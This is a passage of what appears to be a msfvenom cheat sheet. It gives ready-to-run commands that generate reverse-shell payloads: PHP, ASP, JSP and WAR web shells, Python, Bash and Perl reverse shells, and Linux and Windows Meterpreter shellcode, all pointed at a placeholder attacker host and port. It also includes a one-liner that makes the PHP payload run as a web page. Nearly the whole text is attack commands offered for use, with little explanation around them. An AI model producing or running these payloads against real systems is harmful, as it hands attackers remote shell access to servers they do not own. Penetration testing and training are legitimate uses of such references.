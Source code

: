       *PHP*

      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

      OR

      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

      *ASP*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

      *JSP*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

      *WAR*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

      **Scripting Payloads**

      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

      **Shellcode**

      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
